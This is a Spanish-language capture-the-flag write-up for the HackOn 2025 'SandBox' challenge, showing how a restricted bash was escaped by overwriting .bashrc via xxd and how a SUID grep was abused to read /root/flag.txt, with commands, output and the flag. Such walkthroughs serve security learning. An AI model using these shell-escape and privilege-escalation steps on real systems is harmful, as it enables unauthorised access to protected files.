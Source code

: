 ```yaml
---
title: SandBox - HackOn2025
author: Kesero
description: Reto misc basado en escapar de una rbash y leer flag.txt.
date: 2025-02-24 00:00:00 +0000
categories: [Writeups Competiciones Nacionales, Miscelánea N]
tags: [Misc, Misc - Rbash, Otros - Writeups, Dificultad - Media, HackOnCTF]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox/3.png
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `HugoBond`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Not even the dockerfile, just rawdogged like old times"

## Archivos

En este reto, solo tenemos una conexión.

- `Servidor en remoto` : Conexión por ncat.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox).

## Entrando al reto.

Para acceder al entorno del reto, simplemente nos tenemos que conectar mediante `openssl` de la siguiente manera.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

Una vez dentro, se nos desplegará una bash restringida como el usuario `paco`. Nuestro cometido será leer el archivo `flag.txt`, el cual se encuentra dentro del directorio `/root`.

## Solución

Este tipo de retos requiere tiempo y sobre todo probar y probar diferentes comandos para ir depurando posibles vías de ataque.

En este caso, la bash nos permite listar archivos mediante `ls` dentro de nuestra carpeta teníamos una carpeta `bin/` con los comandos que podíamos ejecutar los cuales son los siguientes.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ ls bin/

    echo  id  ls  ping  pwd  python  whoami  xxd

De todos estos comandos los que nos llama más la atención son `python` y `xxd` ya que con python podemos jugar de distintas formas para obtener una `bash` sin restricciones, pero la intrusión no viene de este modo, ya que el comando `python` está asociado a la ejecución del script `/opt/test.py` el cual imprime lo siguiente por consola.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ python

    You just lose THE GAME

Como tenemos capacidad para listar directorios con `ls`, podemos listar todo el contenido en el que paco tenga capacidad de lectura. Es en este momento en el que indagaremos por el sistema en busca de información que podamos utilizar a nuestro favor, como rutas de binarios, permisos asociados a los mismos, etc.

Además un truco que podemos aplicar en estos casos, como tenemos el comando `echo`, podemos mostrar el contenido de archivos mediante el siguiente comando.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo $(>.profile)

    # ~/.profile: executed by the command interpreter for login shells. # This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login # exists. # see /usr/share/doc/bash/examples/startup-files for examples. # the files are located in the bash-doc package. # the default umask is set in /etc/profile; for setting the umask # for ssh logins, install and configure the libpam-umask package. #umask 022 # if running bash if [ -n "$BASH_VERSION" ]; then # include .bashrc if it exists if [ -f "$HOME/.bashrc" ]; then . "$HOME/.bashrc" fi fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/bin" ] ; then PATH="$HOME/bin:$PATH" fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/.local/bin" ] ; then PATH="$HOME/.local/bin:$PATH" fi

De esta forma podemos listar el contenido de todos los archivos si paco tiene permisos de lectura en ellos.

Llegados a este punto tenemos capacidad de listar directorios y de listar archivos, pero nos falta la capacidad de escribirlos.

Es en este punto donde el comando `xxd` adquiere gran importancia.

Si observamos en la página de `GTFoBins` el comando [xxd](https://gtfobins.github.io/gtfobins/xxd/), podemos escribir archivos y leer archivos (aunque este listado es menos intuitivo ya que parte lo hace en hexadecimal)

Podemos listar archivos mediante

    LFILE=file_to_read
    xxd "$LFILE" | xxd -r

Podemos escribir archivos mediante

    LFILE=file_to_write
    echo DATA | xxd | xxd -r - "$LFILE"

NOTA: Importante aclarar que la escritura se realiza al comienzo del archivo, por lo que si queremos escribir al final tendremos que copiar todo el contenido del mismo y luego nuestra cadena a introducir.

Llegados a este punto podemos salir de la `rbash` de distintos modos. El camino que seguí es que como tenemos capacidad de escritura en los archivos cuyo propietario sea `paco`, directamente podemos escribir en nuestra propia `.bashrc` para escapar de la bash.

Aquí se pueden aplicar varios métodos, podemos exportar el $PATH para que incluya rutas del sistema como /usr/bin (actualmente el usuario paco solo tiene en el path /home/paco/bin/), podemos incrustar comandos o abrirnos distintos entornos de ejecuciones como puede ser vim, nano, etc.

Lo que yo hice fue simplemente escribir en `.bashrc` el intérprete de python libre restricciones el cual está alojado en `/usr/bin/python3.11`, de esta manera al salir de la bash y volver a conectarnos mediante `openssl`, se ejecutará el contenido dentro de  `.bashrc` y por ende se ejecutará el intérprete de `python3.11`. Para ello.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo "exec /usr/bin/python3" | xxd | xxd -r - ".bashrc"

Al salir de la sesión y al volver a conectarnos, podremos ver que efectivamente, tenemos un intérprete de python 3.11.2.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

    rbash: cannot set terminal process group (7): Inappropriate ioctl for device
    rbash: no job control in this shell
    Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>

Llegados a este punto podemos ejecutar comandos en el sistema mediante `import os;`, pero seguimos sin tener permisos para leer el directorio `/root`, es por ello que entra el juego la escalada de privilegios para poder leer `/root/flag.txt`

Listando con `ls -la` los permisos de los binarios alojados en `/usr/bin/` podemos listar los privilegios `SUID` que tiene el sistema y observamos que hay varios binarios que tiene permisos `SUID` cuyo propietario es `root`, por lo que podemos manipularlos para ejecutar dicho binario con máximos privilegios.

En este punto, yo utilicé el binario `grep` ya que cuenta con permisos `SUID` y nuevamente si utilizamos la página de `GTFoBins` podemos escalar privilegios con el comando [grep](https://gtfobins.github.io/gtfobins/grep/) si este cuenta con el permiso asociado.

    LFILE=file_to_read
    ./grep '' $LFILE

Como podemos ejecutar comandos deste el intérprete de python, utilizamos `grep` como medio de escalada de privilegios y a su vez para leer el archivo `flag.txt` para observar finalmente la flag.

    >>> import os
    >>> os.system("grep '' " + "/root/flag.txt")

    HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}


## Flag

`HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}`